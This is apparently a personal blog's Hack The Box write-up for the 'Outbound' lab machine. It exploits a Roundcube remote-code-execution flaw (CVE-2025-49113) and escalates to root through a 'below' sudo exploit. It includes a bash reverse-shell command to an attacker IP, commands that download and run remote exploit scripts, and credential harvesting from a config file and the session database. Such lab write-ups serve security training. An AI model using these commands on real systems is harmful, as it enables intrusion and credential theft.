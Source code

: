 ```yaml
---
layout: post
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

<code>
nmap -sV 10.10.11.77
</code>

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

<code>
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
</code>

Then ran:

<code>
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i &gt;&amp; /dev/tcp/10.10.14.87/2311 0&gt;&amp;1'"
</code>

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

<code>
cat /var/www/html/roundcube/config/config.inc.php
</code>

It contained MySQL credentials:

<code>
Username: roundcube  
Password: RCDBPass2025
</code>

I logged into the database:

<code>
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
</code>

Then ran:

<code>
USE roundcube;  
SELECT * FROM session;
</code>

This revealed base64-encoded serialized session data. After decoding it, I found:

<code>
username|s:5:"jacob";  
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
</code>

---

### Cracking the Password

To decrypt the password, I used the following Python script:

<code>
curl https://raw.githubusercontent.com/dogujen/dogujen.github.io/refs/heads/main/assets/des-decrypt-outbound.py -o des-decrypt-outbound.py && python des-decrypt-outbound.py
</code>

**Output:**

<code>
Decrypted password: ********
</code>

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

<code>
sudo -l
</code>

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄  
Happy hacking!
